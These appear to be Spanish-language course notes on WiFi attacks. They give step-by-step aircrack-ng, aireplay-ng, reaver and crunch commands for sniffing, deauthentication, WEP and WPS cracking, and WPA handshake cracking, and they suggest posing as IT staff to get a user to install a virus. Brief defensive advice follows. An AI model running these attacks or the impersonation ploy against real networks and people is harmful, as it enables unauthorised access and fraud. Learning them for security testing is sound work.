 ifconfig: lista todos los adaptadores conectados al pc
iwconfig: lista solo wirales interfaces 

MAC Address: asigned by manufactures se usan para edentificar pcs en el network y que la informacion se transmita del mac destinatario al mac destino
cambiar el mac adres te permite ser anonimo en la network o bypass filters para que parezcamos otro pc en la network

ponemos ifconfig el parametro ether indica el mac del adaptador

para cambiar el mac del adaptador wifi:
```
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
```
(cuando reiniciamos el ordenador el mac volvera a ser el mismo si vuelve a ser el mismo antes de reiniciar el porque el administrador de la red 
a reiniciado las direciones mac de la red)

Manage Mode captura archivos que tengan como mac de destino el pc
Monitor Mode captura todos los archivosen el aire

cambiar adaptador a monitor mode:
```
ifconfig wlan0 down
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
si no funciona el metodo alternativo:
```
ifconfig wlan0 down
airmon-ng check kill
airmon-ng start wlan0
ifconfig wlan0mon up
```
Packet Sniffing Basics
```
airodump-ng mon0
for 5ghz
airodump-ng --band a mon0
for 5ghz and 2.4
airodump-ng --band abg mon0
```

- BSSID: MAC de la red
- PWD: Mayor numero mejor señal
- Beacons: Frames que envia la red y indican que la red existe
- Data: Paquetes que luego usaremos
- S: Numero de paquetes capturados en los ultimos 10 segundos
- CH: Canal de la red
- MB: Velocidad maxima de la red
- ENC: Encriptacion de la red
- ESSID: Nombres de las redes


Target Packet Sniffing
```
airodump-ng --bssid (BSSID) --channel (Nº) --write (file name) mon0
```
en la parte extendida de informacion tenemos todos los dispositivos conectados a la red
- BSSID: MAC de la red
- Sation: Mac de dispositivos de la red
- PWR: Calidad de señal de los dispositivos
- Rate: Velocidad de conexion
- Lost: Informacion perdida
- FRAMES: Numero de paquetes capturados
- PROBE: Si el dispositovo esta buscando redes para conectarse

en el directorio principal tendremos varios archivos con la extencion -01 el principal que vamos a usar es el .cap 
que tiene que contener todos los datos enviados desde y hacia la red deve contener urls paswords y users pero esta encriptada
podemos abrir el archivo .cap en wireshark

Deauthentication Attack:   
Vamos a pretender que somos el cliente cambiando nuestro mac a este y enviar al ruter la señal de desconexion y lo mismo con el cliente  
```
aireplay-ng --deauth 10000000 -a (BSSID) -c (STATION) mon0
```
en algunos casos este comando no funcionara a menos que estemos usando airodump-ng contra la red objetivo
pra eso lanzamos el sigiente comando en la terminal de al lado
```
airodump-ng --bssid (BSSID) --channel (Nº) mon0
```
podemos por ejemplo llamar al usuario y decirle que somos del departamento it y convencerles de que instalen un virus

WEP Cracking:  
Initialization Vector (IV) + Key (Wifi Pasword) = Keystream  
Keystream + Data = Encripted data que se envia al ruter con el IV adjuntado para que el ruter la decodifique  
Los IV se repetiran porque solo son en 24bits al capturar varios IV repetidos podemos decodificar la Contraseña de la red  
1. airodump-ng capturamos una gran cantidad de paquete IV  
2. aircrack-ng analizamos y crackeamos la contraseña   
```
airodump-ng mon0
airodump-ng --bssid (BSSID) --channel (Nº) --write (file name) mon0
aircrack-ng (.cap file name)
```
Key Found (41:41:41:41:41)  
reiniciamos kali quitamos los : para obtener 4141414141 y nos conectamos a la red con esta contraseña  
o usamos el ASCII como contraseña si obtenemos esta  

Si la red WEP al escanear vemos que DATA tiene pocos paquetes
tendremos que forzar la punto de aceso para que genere nuevos IV
```
airodump-ng mon0
airodump-ng --bssid (BSSID) --channel (Nº) --write (file name) mon0
```
en la ventana del al lado mientra este comando este coriendo
```
ifconfig
aireplay-ng --fakeauth 0 -a (BSSID) -h (Mac del adaptador wifi los primeros 12 caracteres de unspec cambiar las - por :) mon0
```
de esta forma apareceremos como dispositivo asociado a la red
ahora empezamos a inllectar paquetes en la red y esperamos los paquetes ARP el ruter se vera forzado a generar nuevos paquetes con IVs
en la ventana de al lado coremos
```
aireplay-ng --arpreplay -b (BSSID) -h (Mac del adaptador wifi los primeros 12 caracteres de unspec cambiar las - por :) mon0
```
nos volvemos a asociar a la red por si acaso y coremos
```
aircrack-ng (.cap file)
```

## WPS Crack
solo funciona si el ruter no tiene protecion PBC push button autentification
```
wash --interface mon0
```
Lck: muestra si el wps esta bloqueado porque despues de unos intentos se bloquea
```
reaver --bssid (BSSID) --channel (Nº) --interface mon0 -vvv --no-associate
```
si obtenemos error es que nesecitamos usar una vercion anterior de reaver porque esta no funciona bien
descargamos la vercion recomendada chmod +x reaver y ./reaver --bssid (BSSID) --channel (Nº) --interface mon0 -vvv --no-associate
mientras rever intenta brutforce la red coremos el sigiente comando en la terminal de aldo para que el ruter no nos ignore
ifconfig
```
aireplay-ng --fakeauth 30(nos asociamos cada 30 segundos) -a (BSSID) -h (Mac del adaptador wifi los primeros 12 caracteres de unspec cambiar las - por :) mon0
```

WPA / WPA2 Cracking  
solo los handshakes tienen informacion util  
captura de handshakes:  
```
airodump-ng mon0
airodump-ng --bssid (BSSID) --channel (Nº) --write (file name) mon0
```
ahora solo sientate y espera a recibir el handshake cuando se algun dispositivo se conecte a la red en la parte de la derecha de la ventana 

puedes para no esperar deautentificar al cliente este volvera a intentar conectarse y asi capturamos el handshake
```
aireplay-ng --deauth 4 -a (BSSID) -c (STATION) mon0
```
en la ventana de ariba a la derecha veremos el handshake

Creating a Wordlist
```
man crunch
crunch [min character number] [max character number] [Characters] -o [filename] -t [pattern]
crunch 6 8 123abc@$ -o wordlist -t a@@@@b
```
CRACK HANDSHAKE (Comparamos MIC)
```
aircrack-ng (.cap file) -w (worldlist .txt)
```
Hay empresas online donde puedes subir el handshake y ellos te lo analizan

conclucion:  
no usar wep  
usar wpa2 con contraseñas complejas  
asegurar que wps esta desabilitado  

obtenemos la ip del ordenador ifconfig wlan0 vamos a la ip 1 de la subnet para entrar en la pagina del router  
si nos atacan con deautentificacion nos podemos conectar con el cable  
Access Control podemos especificar que mac permitimos conectar a la red y cuales no  

## WordLists
- ftp://ftp.openwall.com/pub/wordlists/
- http://www.openwall.com/mirrors/
- https://github.com/danielmiessler/SecLists
- http://www.outpost9.com/files/WordLists.html
- http://www.vulnerabilityassessment.co.uk/passwords.htm
- http://packetstormsecurity.org/Crackers/wordlists/
- http://www.ai.uga.edu/ftplib/natural-language/moby/
- http://www.cotse.com/tools/wordlists1.htm
- http://www.cotse.com/tools/wordlists2.htm
- http://wordlist.sourceforge.net/


